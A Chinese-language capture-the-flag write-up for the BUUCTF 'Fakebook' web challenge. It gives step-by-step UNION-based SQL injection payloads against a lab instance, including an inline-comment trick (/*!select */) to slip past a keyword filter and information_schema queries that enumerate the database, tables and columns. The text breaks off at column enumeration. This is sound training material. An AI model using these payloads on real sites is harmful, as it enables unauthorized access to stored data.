 ```
layout:article
title:"BUUCTF-WEB-SQL注入类-Fakebook1"
```



## Fakebook1

1.点击登陆界面join,申请一个用户:
admin,123,18,bai.com

2.登录网站后，点击admin,发现网址有注入点:

http://1886ff85-240c-42c7-84f0-3fa2575c0bb9.node4.buuoj.cn:81/view.php?no=1

no,应该是记录的编号，我们可以通过no进行注入

注册一个账户之后自动生成记录的编号，所以编号为自动递增型为int

3.随便注入no=1',网页响应有sql报错，所以该网页存在sql语句注入

4.猜测该网页使用了select * from where no = 

所以我们可以用1 union select 1,2,3;#

但是返回了no hacker,所以可能过滤了select

所以可以用

-- 内联注释绕过
/*!select */1，2，3，4;

5.爆字段:1 order by 4;#

当order by 5#时报错，所以最大字段数为4

6.使用-1 union/*!select */1，2，3，4;

只有username返回值为2，所以只有第二个字段能够成功返回值

使用-1是为了使响应网址只返回我们select的内容

7.爆数据库:-1 union/*!select */1,database(),3,4;

-1 union/*!select */1,group_concat(database()),3,4;//爆出所有数据库

uername爆出数据库为fakebook

只有一个数据库

8.爆表

-1 union/*!select */1,group_concat(table_name) ,3,4 from information_schema.tables where table_schema

= DATABASE();//database()可以直接显示当前数据库，一般是只有一个数据库才可以用，否则就要指定数据库

username字段显示users表

9.爆字段

-1 union/*!select */1,group_concat(column_name),3,4  from information_schema.COLUMNS where table_schema = 'fakebook' and table_name = 'users';
